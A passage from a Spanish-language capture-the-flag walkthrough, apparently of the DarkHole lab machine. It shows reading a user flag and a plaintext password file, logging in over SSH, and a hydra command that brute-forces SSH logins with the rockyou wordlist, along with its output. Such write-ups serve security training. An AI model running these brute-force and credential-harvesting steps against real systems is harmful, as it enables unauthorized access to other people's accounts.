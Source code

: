 Listamos la Flag de usuario y la password.

```bash
script /dev/null -c bash
Script started, file is /dev/null
john@darkhole:/home/john$
john@darkhole:/home/john$ ls
ls
file.py  password  toto  user.txt

john@darkhole:/home/john$ cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}

john@darkhole:/home/john$ cat password
cat password
root123
```

Ya con la password, nos conectamos por `SSH`.

```bash
❯ ssh john@10.11.12.11
john@10.11.12.11's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 06 Feb 2025 07:10:57 PM UTC

  System load:  0.0                Processes:              236
  Usage of /:   39.1% of 18.57GB   Users logged in:        0
  Memory usage: 65%                IPv4 address for ens33: 10.11.12.11
  Swap usage:   2%


2 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 17 21:46:18 2021
john@darkhole:~$
```

>También podríamos haber utilizado `hydra` para fuerza bruta sobre `ssh`, ya que la password obtenida se encuentra en el diccionario `rockyou`.
{: .prompt-tip }

```bash
❯ cat /usr/share/wordlists/rockyou.txt | grep -n root123
392310:root123

❯ hydra -l john -P /usr/share/wordlists/rockyou.txt 10.11.12.11 ssh -t 20
[22][ssh] host: 10.11.12.11   login: john   password: root123
```
